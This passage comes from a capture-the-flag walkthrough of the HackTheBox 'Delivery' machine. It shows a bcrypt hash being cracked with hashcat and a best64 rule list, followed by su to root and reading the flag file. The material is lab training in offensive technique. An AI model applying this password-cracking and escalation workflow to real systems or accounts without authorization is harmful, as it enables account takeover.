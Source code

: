 I’ll drop the hash into a file:

    root@kali# cat hash 
    root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
    

Based on the comments from Mattermost, I’ll create a file with the password:

    oxdf@parrot$ cat password 
    PleaseSubscribe!
    

Now I can run with a rule file to get different variations on the passwords in the file (just one in this case). There are many in , but why not start with the one called “best”:`/usr/share/hashcat/rules`

    root@kali# hashcat -m 3200 hash password --user -r /usr/share/hashcat/rules/best64.rule 
    ...[snip]...
    $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
    

It cracks pretty quickly.

### su

That password works for the root account on Delivery:

    maildeliverer@Delivery:/$ su -
    Password: 
    root@Delivery:~#
    

I can grab :`root.txt`

    root@Delivery:~# cat root.txt
    b3bc48d7************************
    

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2021/05/22/htb-delivery.html)